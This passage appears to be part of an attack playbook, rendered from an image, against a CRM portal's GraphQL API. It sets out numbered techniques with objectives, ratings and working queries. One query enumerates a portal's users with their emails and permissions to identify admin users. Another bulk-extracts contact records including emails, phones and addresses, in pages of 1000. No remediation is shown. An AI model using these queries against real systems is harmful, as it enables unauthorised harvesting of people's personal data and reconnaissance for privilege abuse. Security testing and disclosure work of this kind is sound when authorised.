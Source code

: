 ### 2. User Enumeration (HIGH ⭐⭐⭐⭐)

**Objective:** Enumerate all users in portal

**Method:**
```graphql
query {
  users(portalId: "242862774") {
    id
    email
    firstName
    lastName
    userPermissions {
      currentUserCanView
      currentUserCanEdit
    }
  }
}
```

**Attack Implications:**
- Extract all user emails
- Map user permissions
- Identify admin users

**Severity:** High

---

### 3. Contact/Company Data Extraction (CRITICAL ⭐⭐⭐⭐⭐)

**Objective:** Extract all CRM data

**Method:**
```graphql
query {
  crmObjectsSearch(
    type: "0-1"  # Contacts
    filterGroups: []
    count: 1000
    offset: 0
  ) {
    total
    results {
      id
      properties(names: [
        "email",
        "phone",
        "firstname",
        "lastname",
        "company",
        "website",
        "address",
        "city",
        "state",
        "zip"
      ]) {
        name
        value
      }
    }
  }
}
```
